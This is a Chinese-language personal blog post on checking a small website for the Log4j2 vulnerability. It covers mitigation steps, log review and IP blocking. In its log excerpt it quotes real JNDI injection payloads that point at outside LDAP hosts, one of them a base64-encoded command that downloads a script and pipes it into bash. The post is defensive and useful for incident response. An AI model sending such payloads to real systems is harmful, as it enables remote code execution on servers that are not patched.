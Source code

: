 ```yaml
---
layout:     post
title:      个人网站Log4j2漏洞风险排查
subtitle:   世纪漏洞。
date:       2022-01-12
author:     YSY
header-style: text
catalog: true
tags:
    - 问题不大
    - 后端
---
```


### 前言

Log4j2漏洞事件已经过去了几个月，影响面可以说是非常的广。本质上还是权限和代码注入问题，这里就不作赘述，和SQL注入在原理和形式上都异曲同工。

我个人没太明白还是，如此流行的开源库，竟然开发者和使用者这么久都没发现这个巨大漏洞（可能早有人发现但并未公布），而且作为一个日志记录工具，权限未免太高。

### 修复

从互联网上可以查到最新的修复建议：

> 1. 升级到最新版本：
>
>    目前官方已推出最新Apache log4j 2.15.0版本，可从地址中下载升级：https://logging.apache.org/log4j/2.x/download.html
>
> 2. 缓解措施：
>
> （1）添加jvm启动参数 -Dlog4j2.formatMsgNoLookups=true  
>
> （2）在应用程序的classpath下添加log4j2.component.properties配置文件文件，文件内容：log4j2.formatMsgNoLookups=True
>
> （3）移除log4j-core包中JndiLookup 类文件，并重启服务
>
> 具体命令：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
>
> （4）建议JDK使用11.0.1、8u191、7u201、6u211及以上的高版本
>
> （5）限制受影响应用对外访问互联网
>
> （6）禁用JNDI。如在spring.properties里添加spring.jndi.ignore=true
>
> （7）采用其他防护措施，更新WAF、RASP规则等

### 排查

其实在引起轩然大波之前，并没有多少人去尝试利用这个漏洞攻击别人的服务器，反倒是现在，一些阿猫阿狗也开始作妖。

我们直接查询HTTP服务的access日志，就能知道是不是有人试图攻击你的小破站了：

```bash
cat access.log | grep jndi
```

好家伙，非常多，这里只列几个来示例：

```bash
195.54.160.149 - - [24/Dec/2021:14:22:15 +0800] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MHx8d2dldCAtcSAtTy0gMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MCl8YmFzaA==} HTTP/1.1" 200 1307
221.199.187.100 - - [24/Dec/2021:21:01:54 +0800] "GET /${jndi:ldap://121.140.99.236:1389/Exploit} HTTP/1.1" 404 196
195.54.160.149 - - [25/Dec/2021:11:07:24 +0800] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MHx8d2dldCAtcSAtTy0gMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MCl8YmFzaA==} HTTP/1.1" 200 1307
170.210.45.163 - - [26/Dec/2021:08:32:29 +0800] "GET /${jndi:ldap://121.140.99.236:1389/Exploit} HTTP/1.1" 404 196
195.54.160.149 - - [27/Dec/2021:03:06:53 +0800] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MHx8d2dldCAtcSAtTy0gMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MCl8YmFzaA==} HTTP/1.1" 200 1307
175.6.210.66 - - [31/Dec/2021:00:53:40 +0800] "GET /${jndi:ldap://121.140.99.236:1389/Exploit} HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:08 +0800] "POST /register?username=$%7Bjndi:ldap://78.31.67.151:1389/nuzomt%7D HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:09 +0800] "GET /register?id=$%7Bjndi:ldap://78.31.67.151:1389/nuzomt%7D HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:27 +0800] "POST /register?username=$%7Bjndi:ldap://78.31.67.151:1389/khslv8%7D HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:28 +0800] "GET /register?id=$%7Bjndi:ldap://78.31.67.151:1389/khslv8%7D HTTP/1.1" 404 196
```

天南海北的IP地址，我真是谢谢你们光顾啊。

由于我的服务器并没有运行什么复杂的Web应用，所以问题应该不大，不然我估计连ssh都登不进去了。

1. 不过，我们还是要排查一下现状，先检查项目依赖库有没有log4j2，版本是否更新到了修复版本。我的项目都是个人开发的小玩意，所以没用到这个玩意。
2. 到关键目录中检索jar包，尤其是基于Java开发的，比如Apache HTTP目录、Tomcat目录以及一些自定义的正在运行的Java程序：

```bash
# 大概看下有哪些进程
ps -ef | grep java
# 到关键目录下直接find库包，一旦发现散落的jar，要么更新要么删里面的漏洞class
find . -name "log4j*"
```

3. 通过上述的access访问日志，看看哪些疯子在高频攻击，直接把IP或者IP段给ban了，让他搁这儿装逼：

```bash
# 如果用的是比较老的系统，比如Ubuntu 16.04之类的，多半还是iptables
iptables -I INPUT -s 78.31.67.151 -j DROP

# 如果是用的防火墙，比如CentOS 7上面
firewall-cmd --zone=public --add-rich-rule 'rule family="ipv4" source address="78.31.67.151" reject' --permanent
firewall-cmd --reload
```

4. 如果你还是不安心，先关机吧哈哈哈，断网才是终极大法，反正是个人网站。避避风头，把修复措施研究透彻，保证漏洞完全无法复现，再开机。

